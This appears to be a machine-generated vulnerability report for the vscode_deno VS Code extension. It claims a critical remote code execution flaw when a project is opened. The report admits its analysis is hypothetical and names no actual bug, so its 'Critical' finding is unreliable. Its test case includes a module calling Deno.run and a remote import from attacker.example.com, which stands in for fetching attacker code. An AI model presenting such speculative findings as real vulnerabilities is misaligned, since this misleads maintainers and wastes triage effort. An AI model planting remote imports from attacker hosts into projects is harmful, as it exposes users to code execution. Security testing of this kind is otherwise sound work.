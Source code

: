 ## Vulnerability List

### Remote Code Execution via Malicious Deno Project

**Description:**
1. An attacker crafts a malicious Deno project.
2. This project contains a `deno.json` or a Deno file with a remote import statement, pointing to a malicious remote module hosted on an attacker-controlled server.
3. When a user opens this malicious project in Visual Studio Code with the `vscode_deno` extension enabled.
4. The `vscode_deno` extension, when initializing and processing the project, triggers the Deno Language Server to analyze the project and its dependencies.
5. The Deno Language Server, as part of its functionality (e.g., for type-checking, linting, or module resolution), attempts to fetch and cache the remote module specified in the import statement.
6. Due to a vulnerability in the Deno Language Server's module fetching, caching, or processing mechanism, handling the malicious remote module leads to arbitrary code execution on the user's machine. This could occur when the LSP server processes the content of the malicious module or due to vulnerabilities in how it handles URLs or file paths during the module fetching and caching process.

**Impact:** Arbitrary code execution on the user's machine. An attacker can gain full control of the user's system simply by enticing a user to open a seemingly harmless Deno project in VS Code. This can lead to data theft, malware installation, and other malicious activities.

**Vulnerability Rank:** Critical

**Currently Implemented Mitigations:** None in the `vscode_deno` extension directly as the vulnerability is described to be within the Deno Language Server, which is an external dependency. Mitigations would need to be implemented within the Deno CLI and LSP codebase.

**Missing Mitigations:**
- Input validation and sanitization of remote module URLs and content within the Deno Language Server to prevent exploitation through malicious URLs or module content.
- Sandboxing or isolation of the module fetching and caching process within the Deno Language Server to limit the impact of potential vulnerabilities.
- Security review and hardening of the Deno Language Server's module handling logic, particularly focusing on remote module fetching, caching, and processing.
- Implementation of Content Security Policy (CSP) or similar mechanisms within the Deno Language Server to restrict the capabilities of loaded remote modules and prevent arbitrary code execution.

**Preconditions:**
1. The user must have the `vscode_deno` extension installed and enabled in Visual Studio Code.
2. The user must open a malicious Deno project in Visual Studio Code.
3. The malicious project must be crafted to include a remote import that exploits a vulnerability in the Deno Language Server when processed.

**Source Code Analysis:**
The `vscode_deno` extension itself primarily acts as a client to the Deno Language Server. The vulnerability is not expected to be within the `vscode_deno` extension's code, but rather within the Deno Language Server (deno lsp) which is responsible for language features.

The attack vector involves the processing of remote modules by the Deno Language Server. The following is a hypothetical analysis of where the vulnerability could occur within the Deno LSP server (source code not provided):

1. **Remote Module Fetching:** When the LSP server encounters a remote import statement, it initiates a network request to fetch the module from the specified URL. Vulnerabilities could arise if:
    - The URL is not properly validated, allowing for URL manipulation to access unintended resources or trigger server-side vulnerabilities.
    - The fetching process is susceptible to injection attacks if URLs or headers are constructed improperly.

2. **Module Caching:** The Deno LSP server likely caches fetched remote modules to improve performance. Vulnerabilities could arise if:
    - The cache mechanism is vulnerable to path traversal, allowing an attacker to overwrite or access arbitrary files on the user's system.
    - Cache invalidation is not handled correctly, potentially leading to the use of outdated or malicious cached modules.

3. **Module Processing/Execution:** After fetching a remote module, the LSP server parses and processes its content for language features (type-checking, linting, etc.). Vulnerabilities could arise if:
    - The module parser has vulnerabilities that can be triggered by specially crafted malicious module content, leading to buffer overflows, code injection, or other memory corruption issues.
    - The LSP server attempts to execute code within the fetched module in an unsafe manner, without proper sandboxing or security measures.

**Security Test Case:**
1. **Setup Malicious Server:** Create a simple HTTP server (e.g., using Python's `http.server`) that will serve a malicious Deno module. Let's say the server runs on `http://attacker.example.com:8000`.
2. **Create Malicious Module:** Create a file named `malicious_module.ts` to be served by the malicious server. This file should contain code designed to trigger a hypothetical vulnerability. For example, to test for command execution, it could attempt to execute a system command (though Deno's security model might prevent this directly, a more subtle exploit might be needed depending on the actual vulnerability):
   ```typescript
   // malicious_module.ts
   // Hypothetical exploit to trigger RCE - this is just an example, actual exploit would depend on the specific vulnerability
   try {
       // Attempt to execute a command - this is unlikely to work directly due to Deno's security
       // More subtle exploit would be needed, e.g., if vulnerability is in URL parsing or module processing
       Deno.run({ cmd: ["touch", "/tmp/pwned"] });
   } catch (e) {
       console.error("Exploit attempt:", e);
   }
   console.log("Malicious module loaded");
   ```
3. **Create Malicious Deno Project:** Create a new directory for the malicious project. Inside this directory, create a Deno file (e.g., `main.ts`) with a remote import pointing to the malicious server:
   ```typescript
   // main.ts
   import "http://attacker.example.com:8000/malicious_module.ts";
   console.log("Project opened");
   ```
4. **Open Project in VS Code:** Open the malicious project directory in Visual Studio Code with the `vscode_deno` extension enabled.
5. **Observe for Exploitation:**
   - Monitor for the creation of `/tmp/pwned` file (or any other indicator of code execution defined in `malicious_module.ts`).
   - Check the VS Code extension host logs or Deno LSP server logs for any error messages or unusual activity.
   - Network traffic analysis could also be used to observe requests to the malicious server and responses.

**Expected Result:** If the vulnerability exists, opening the project should trigger the execution of the malicious code within `malicious_module.ts` due to a flaw in the Deno Language Server's handling of remote modules.  The test case needs to be adapted based on the specific type of vulnerability being tested for (e.g., path traversal, command injection, parser vulnerability).
